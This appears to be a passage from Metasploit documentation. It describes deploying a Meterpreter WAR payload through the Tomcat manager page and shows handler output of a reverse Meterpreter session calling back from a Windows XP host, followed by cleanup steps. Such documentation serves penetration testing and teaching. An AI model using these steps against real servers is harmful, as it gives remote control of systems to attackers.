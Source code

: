 ## Deploy

1. With a web browser, browse to `http://<ip>:<port>/manager/html`
2. Enter credentials (no default)
3. Under `Deploy` > `WAR file to deploy`, click browse to select `meterp.war`, click `Deploy`
4. `meterp` should now be listed under `Applications`, meaning it was successfully deployed.
5. Either click the link for `/meterp` or browse to `http://<ip>:<port>/meterp/`

## Callback
After browsing to that page, code execution will happen, and your callback will hit.

```
[*] Starting the payload handler...
[*] Sending stage (49409 bytes) to 192.168.2.108
[*] Meterpreter session 1 opened (192.168.2.117:7777 -> 192.168.2.108:1704) at 2017-01-14 14:53:37 -0500

meterpreter > sysinfo
Computer    : winxp
OS          : Windows XP 5.1 (x86)
Meterpreter : java/windows
```

## Manual Cleanup

This will NOT remove the meterpreter from Tomcat, click `Undeploy` within the `Application` list to remove `meterp` from Tomcat.